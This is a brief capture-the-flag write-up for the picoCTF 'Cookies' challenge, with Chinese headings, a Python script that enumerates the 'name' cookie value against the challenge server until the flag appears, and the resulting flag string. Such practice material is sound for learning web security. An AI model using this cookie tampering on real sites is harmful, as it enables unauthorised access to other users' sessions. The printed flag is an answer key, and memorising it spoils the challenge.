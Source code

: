 # Cookies
## 題目
Who doesn't love cookies? Try to figure out the best one.
http://mercury.picoctf.net:21485/

## 解答
```python
import requests
from bs4 import BeautifulSoup 
for i in range(28):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    
    r = requests.get('http://mercury.picoctf.net:21485/check', headers=headers)
    if ('picoCTF' in r.text):
        soup = BeautifulSoup(r.text,"html.parser")
        print(soup.code.text)
        break
```
```shell
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```
